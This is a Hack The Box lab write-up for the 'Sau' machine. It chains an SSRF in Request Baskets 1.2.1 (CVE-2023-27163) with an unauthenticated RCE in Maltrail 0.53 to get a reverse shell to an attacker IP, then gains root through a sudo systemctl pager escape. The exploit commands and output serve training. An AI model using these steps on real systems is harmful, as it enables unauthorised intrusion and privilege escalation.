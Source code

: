 ```yaml
---
layout: post
title: Sau - Server-Side Request Forgery (SSRF).
date: 2023-10-16 10:14:00-0400
description: Sau - Hack The Box write-up.
tags: easy-box HTB CTF RCE SSRF
categories: HTB-Machines
thumbnail: /assets/img/2023-sau/Sau.png
giscus_comments: false
related_posts: true
toc:
  beginning: true
featured: false
---
```


# Introduction

Sau is an Easy machine on Hack The Box that focuses on exploiting two vulnerabilities to ultimately obtain initial access. Privilege escalation is then achieved by exploiting a legitimate binary.

# Enumeration
Nmap reveals three ports:
- 22
- 80
- 55555

```shell
 nmap -sV -sC -T4 10.129.82.3 -oA nmap-sau
 
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 15 Oct 2023 04:01:09 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 15 Oct 2023 04:00:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 15 Oct 2023 04:00:38 GMT
|_    Content-Length: 0
<SNIP>
```

SSH is a dead end and port 80 is filtered, but browsing to `http://10.129.82.3:55555` lands on a site titled **Request Baskets**.

## What's Request Baskets?
Request Baskets is a concept, often implemented as a tool or a service, used to capture, inspect, and debug HTTP requests. It provides a temporary "basket" or "bucket" that captures incoming HTTP requests for analysis. This is particularly useful for debugging webhooks, HTTP clients, or other services that send HTTP requests.

An implementation usually works like this:

1. **Create** a new Request Basket, which provides a unique URL endpoint.
2. **Configure** the application, webhook, or service to send HTTP requests to the URL.
3. **Inspect** the incoming HTTP requests to the basket
4. Use the captured information,  to **test or debug issues**, validate payloads, or run other types of tests.

We can see that this particular implementation is on version 1.2.1, which is vulnerable to <a href="https://nvd.nist.gov/vuln/detail/CVE-2023-27163"> *CVE-2023–27163 - a Server-Side Request Forgery (SSRF)*</a>

## What's SSRF?
SSRF, or Server-Side Request Forgery, is a security vulnerability that allows an attacker to make requests to internal resources within an organization's network, effectively bypassing firewalls. In SSRF attacks, ***the attacker manipulates a vulnerable web application to make requests to an internal resource,*** which could be anything from cloud services to databases or even restricted parts of the web application itself.

The attack often occurs when a web application doesn't properly validate or sanitise user input for URLs. An attacker can then trick the server into making an unauthorised request to internal resources, potentially revealing sensitive information or even executing commands.

It's particularly concerning in cloud environments, where metadata APIs can expose sensitive data that can lead to more severe attacks like privilege escalation.

Prevention often involves input validation, restricting outbound requests from the server, or implementing allow lists for permissible URLs.

# Attack vector
Given port 80 is filtered but  there is an implementation of Request Baskets on port 55555 that is vulnerable to SSRF, this appears to provide a way to forward requests to the service running on port 80. A PoC of the SSRF vulnerability on Request-Baskets can be found [here](https://github.com/entr0pie/CVE-2023-27163).

## Testing
Creating a new basket in the web app and then configuring port 80 as the forward URL on a local interface can confirm this.

Hovering over the `Proxy Response` option, we can see it will *Proxy the response from the forward url back to the client*.

Checking this option will return the response from `http://localhost:80`.

<img src="/assets/img/2023-sau/20231016-sau-2.png" class="auto-resize">

Triggering a request by browsing to `http://10.129.82.3:55555/wnnyr21` returns a seemingly malformed web app called **Maltrail**.
<img src="/assets/img/2023-sau/20231016-sau-5.png" class="auto-resize">

The app is running version 0.53 which is vulnerable to a **Remote Code Execution.**

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit maltrail
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Maltrail v0.53 - Unauthenticated Remote Code Executi | python/webapps/51676.py
```

# Initial access
Using the first exploit, a basket can be created that, when accessed, will make a request to `http://localhost:80`, as tested manually.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ ./CVE-2023-27163.sh http://10.129.82.3:55555/ http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ndapra" proxy basket...
> Basket created!
> Accessing http://10.129.82.3:55555/ndapra now makes the server request to http://localhost:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"uQW06XHLrVKiZsq2XbeXRbrb6PRlQ53tTAVeaA-Puolb"}
```

This basket can then be used to proxy the second exploit to the vulnerable implementation of Maltrail.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ python3 51676.py 10.10.14.12 4321  http://10.129.82.3:55555/ndapra
Running exploit on http://10.129.82.3:55555/ndapra/login
```

The payload is executed on the Maltrail instance running on port 80, and a reverse shell is sucessfully caught on the listener.

<img src="/assets/img/2023-sau/20231016-sau-3.png" class="auto-resize">

# Privilege escalation
Privilege escalation is reasonably straight forward.

Checking what the user can run as sudo returns one binary: 
`/usr/bin/systemctl status trail.service`

```shell
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

[GTFOBIns](https://gtfobins.github.io/gtfobins/systemctl/) says the following about `systemctl` ran as sudo:

> *If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.*


Running the binary seems to drop into a new terminal session:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
```

Attempting to execute a new shell from this terminal will spawn it under sudo:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
```

<img src="/assets/img/2023-sau/20231016-sau-4.png" class="auto-resize">


Done and dusted!